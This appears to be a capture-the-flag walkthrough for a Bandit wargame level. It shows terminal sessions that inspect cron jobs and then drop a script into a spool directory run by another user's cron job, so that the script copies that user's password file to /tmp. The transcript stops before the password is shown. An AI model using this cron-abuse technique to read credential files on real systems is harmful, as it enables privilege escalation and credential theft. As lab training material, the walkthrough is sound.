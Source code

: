 >NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

>NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

```console
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls -l
total 92
-r--r----- 1 root root  46 Nov 14  2014 behemoth4_cleanup
-rw-r--r-- 1 root root 355 May 25  2013 cron-apt
-rw-r--r-- 1 root root  61 Nov 14  2014 cronjob_bandit22
-rw-r--r-- 1 root root  62 Nov 14  2014 cronjob_bandit23
-rw-r--r-- 1 root root  61 May  3  2015 cronjob_bandit24
-rw-r--r-- 1 root root  62 May  3  2015 cronjob_bandit24_root
-r--r----- 1 root root  47 Nov 14  2014 leviathan5_cleanup
-rw------- 1 root root 233 Nov 14  2014 manpage3_resetpw_job
-rw-r--r-- 1 root root  51 Nov 14  2014 melinda-stats
-rw-r--r-- 1 root root  54 Jun 25  2016 natas-session-toucher
-rw-r--r-- 1 root root  49 Jun 25  2016 natas-stats
-r--r----- 1 root root  44 Jun 25  2016 natas25_cleanup
-r--r----- 1 root root  47 Aug  3  2015 natas25_cleanup~
-r--r----- 1 root root  47 Jun 25  2016 natas26_cleanup
-r--r----- 1 root root  43 Jun 25  2016 natas27_cleanup
-rw-r--r-- 1 root root 510 Oct 29  2014 php5
-rw-r--r-- 1 root root  63 Jul  8  2015 semtex0-32
-rw-r--r-- 1 root root  63 Jul  8  2015 semtex0-64
-rw-r--r-- 1 root root  64 Jul  8  2015 semtex0-ppc
-rw-r--r-- 1 root root  35 Nov 14  2014 semtex5
-rw-r--r-- 1 root root 396 Nov 10  2013 sysstat
-rw-r--r-- 1 root root  29 Nov 14  2014 vortex0
-rw-r--r-- 1 root root  30 Nov 14  2014 vortex20
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24_root
* * * * * root /usr/bin/cronjob_bandit24_root.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bashmyname=$(whoami)cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
 echo "Handling $i"
 timeout -s 9 60 "./$i"
 rm -f "./$i"
    fi
donebandit23@bandit:/etc/cron.d$
```

```console
bandit23@bandit:~$ mkdir /tmp/ooo
bandit23@bandit:~$ nano bandit24.sh
bandit23@bandit:~$ cat bandit24.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/ooo/level24
bandit23@bandit:/tmp/ooo$ chmod 777 bandit24.sh
bandit23@bandit:/tmp/ooo$ cp bandit24.sh /var/spool/bandit24/
bandit23@bandit:/tmp/ooo$ chmod 777 /tmp/ooo
bandit23@bandit:/tmp/ooo$ ls /var/spool/bandit24/
bandit24.sh
<----After a couple of minutes---->
bandit23@bandit:/tmp/ooo$ ls /var/spool/bandit24/
bandit23@bandit:/tmp/ooo$ ls
```